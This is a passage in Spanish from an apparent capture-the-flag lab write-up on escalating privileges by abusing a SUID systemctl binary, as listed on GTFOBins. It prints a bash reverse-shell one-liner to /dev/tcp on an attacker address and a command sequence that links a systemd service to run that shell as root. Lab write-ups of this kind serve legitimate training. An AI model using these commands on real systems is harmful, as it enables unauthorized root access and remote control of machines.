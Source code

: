 ```bash
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Tras analizar los binarios `SUID`, identificamos a `systemctl` como el más sospechoso. Al consultar en [GTFOBins](https://gtfobins.github.io/), confirmamos que es posible utilizar este binario para escalar privilegios y obtener acceso como usuario root.

![suid](/assets/img/commons/vulnversity/suid.png){: .center-image }

En resumen, estos comandos crean un servicio de sistema que se ejecuta una sola vez y que redirige la salida del comando `id` a un archivo en `/tmp/output`**.**

En este caso, realizamos una modificación en el comando que se ejecuta al iniciar el servicio (`id`) por el siguiente comando: `bash -i >& /dev/tcp/10.10.229.64/9002 0>&1`, con el objetivo de obtener una reverse shell como usuario `root`.

Para continuar con el proceso, primero debemos ponernos en escucha en el puerto especificado (`9002`). Luego, nos movemos al directorio `/tmp` en la máquina víctima y ejecutamos la ****siguiente serie de comandos para lograr nuestro objetivo:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<attacker_ip>/9002 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
